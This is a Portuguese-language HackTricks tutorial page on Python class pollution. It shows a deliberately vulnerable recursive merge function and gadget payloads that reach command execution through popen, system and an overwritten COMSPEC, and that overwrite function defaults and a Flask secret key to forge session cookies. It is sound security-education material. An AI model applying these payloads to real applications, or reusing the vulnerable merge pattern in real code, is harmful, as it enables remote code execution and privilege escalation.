 # Class Pollution (Python's Prototype Pollution)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Exemplo Básico

Verifique como é possível poluir classes de objetos com strings:
```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```
## Exemplo Básico de Vulnerabilidade
```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)


USER_INPUT = {
"name":"Ahemd",
"age": 23,
"manager":{
"name":"Sarah"
}
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```
## Exemplos de Gadget

<details>

<summary>Criando valor padrão de propriedade de classe para RCE (subprocess)</summary>
```python
from os import popen
class Employee: pass # Creating an empty class
class HR(Employee): pass # Class inherits from Employee class
class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
def execute_command(self):
command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

USER_INPUT = {
"__class__":{
"__base__":{
"__base__":{
"custom_command": "whoami"
}
}
}
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
#> [!] Executing: "echo Hello there", output: "Hello there"

# Create default value for Employee.custom_command
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
#> [!] Executing: "whoami", output: "abdulrah33m"
```
</details>

<details>

<summary>Poluindo outras classes e variáveis globais através de <code>globals</code></summary>
```python
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class User:
def __init__(self):
pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```
</details>

<details>

<summary>Execução arbitrária de subprocessos</summary>
```python
import subprocess, json

class Employee:
def __init__(self):
pass

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```
</details>

<details>

<summary>Substituindo <strong><code>__kwdefaults__</code></strong></summary>

**`__kwdefaults__`** é um atributo especial de todas as funções, com base na [documentação](https://docs.python.org/3/library/inspect.html) do Python, é um “mapeamento de quaisquer valores padrão para parâmetros **somente de palavra-chave**”. Poluir este atributo nos permite controlar os valores padrão dos parâmetros somente de palavra-chave de uma função, que são os parâmetros da função que vêm após \* ou \*args.
```python
from os import system
import json

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class Employee:
def __init__(self):
pass

def execute(*, command='whoami'):
print(f'Executing {command}')
system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```
</details>

<details>

<summary>Substituindo o segredo do Flask em arquivos</summary>

Então, se você puder fazer uma poluição de classe sobre um objeto definido no arquivo python principal da web, mas **cuja classe é definida em um arquivo diferente** do principal. Porque, para acessar \_\_globals\_\_ nos payloads anteriores, você precisa acessar a classe do objeto ou métodos da classe, você poderá **acessar os globals naquele arquivo, mas não no principal**. \
Portanto, você **não poderá acessar o objeto global do app Flask** que definiu a **chave secreta** na página principal:
```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```
Neste cenário, você precisa de um gadget para percorrer arquivos até chegar ao principal para **acessar o objeto global `app.secret_key`** para mudar a chave secreta do Flask e poder [**escalar privilégios** conhecendo essa chave](../../network-services-pentesting/pentesting-web/flask.md#flask-unsign).

Uma carga útil como esta [deste relatório](https://ctftime.org/writeup/36082):

{% code overflow="wrap" %}
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
{% endcode %}

Use este payload para **mudar `app.secret_key`** (o nome no seu app pode ser diferente) para poder assinar novos e mais privilegiados cookies do flask.

</details>

Verifique também a seguinte página para mais gadgets somente leitura:

{% content-ref url="python-internal-read-gadgets.md" %}
[python-internal-read-gadgets.md](python-internal-read-gadgets.md)
{% endcontent-ref %}

## Referências

* [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
